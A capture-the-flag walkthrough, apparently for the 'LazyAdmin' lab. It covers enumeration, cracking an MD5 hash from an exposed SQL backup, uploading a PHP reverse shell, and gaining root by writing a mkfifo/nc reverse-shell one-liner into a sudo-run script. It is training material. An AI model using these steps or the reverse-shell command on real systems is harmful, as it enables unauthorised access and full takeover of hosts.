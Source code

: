 # LazyAdmin

Have some fun! There might be multiple ways to get user access.

- What is the user flag?

	- `nmap -sV -sC <TARGET_IP>`. There are two services exposed: 22/tcp (ssh) and 1583/tcp (simbaexpress)
	- `nmap --script=vuln <TARGET_IP>`
	-		Nmap scan report for 10.10.58.33
			Host is up (0.081s latency).
			Not shown: 998 closed ports
			PORT   STATE SERVICE
			22/tcp open  ssh
			80/tcp open  http
			|_http-csrf: Couldn't find any CSRF vulnerabilities.
			|_http-dombased-xss: Couldn't find any DOM based XSS.
			| http-enum: 
			|_  /content/: Potentially interesting folder
			| http-slowloris-check: 
			|   VULNERABLE:
			|   Slowloris DOS attack
			|     State: LIKELY VULNERABLE
			|     IDs:  CVE:CVE-2007-6750
			|       Slowloris tries to keep many connections to the target web server open and hold
			|       them open as long as possible.  It accomplishes this by opening connections to
			|       the target web server and sending a partial request. By doing so, it starves
			|       the http server's resources causing Denial Of Service.
			|       
			|     Disclosure date: 2009-09-17
			|     References:
			|       http://ha.ckers.org/slowloris/
			|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
			|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
			
		Seems good.
	- Visit `http://<TARGET_IP>/content/` on browser.
	- `gobuster dir -u http://<TARGET_IP>/content/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
	-	 	/images (Status: 301)
			/js (Status: 301)
			/inc (Status: 301)
			/as (Status: 301)
			/_themes (Status: 301)
			/attachment (Status: 301)
			
		Interesting...
	- In `http://<TARGET_IP>/content/inc` there is  `mysql\_backup` folder. Download the .sql file inside.
	- Open it with or something similar. You should read a line with a passwd header and the a hashed value.
	- Use `hash-identifier` to detect the type of the hash. MD5. ok.
	- `cat <HASH_HERE> > hash.txt`
	- `sudo john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=RAW-MD5`
	- Go into the login page `http://<TARGET_IP>/content/as/`
	- Login with the username inside the .sql file and the cracked password.
	- Go into `Ads` section.
	- Load the `rshell.php` into the content manager (change the IP address with yours!)
	- `nc -lvnp 1234` on your machine.
	- Go into `http://<TARGET_IP>/content/inc/ads` and click on the file you've just uploaded.
	- You gained a shell. `cd /home/itguy && cat user.txt`
	- `THM{63**bce92******ad111**********07}`

- What is the root flag?

	- `sudo -l`
	- Ok. We don't need sudo password for backup.pl and perl.
	- Analyze backup.pl, it runs /etc/copy.sh. Let'see.
	- It's a reverse shell. Change the specified ip address to yours.
	- `echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YOUR_IP_HERE> 5554 >/tmp/f" > /etc/copy.sh`
	- `nc -lnvp 5554` on your machine
	- `sudo /usr/bin/perl /home/itguy/backup.pl` on target machine.
	- `cat /root/root.txt`
	- `THM{663**41d01******7cb**********99f}`
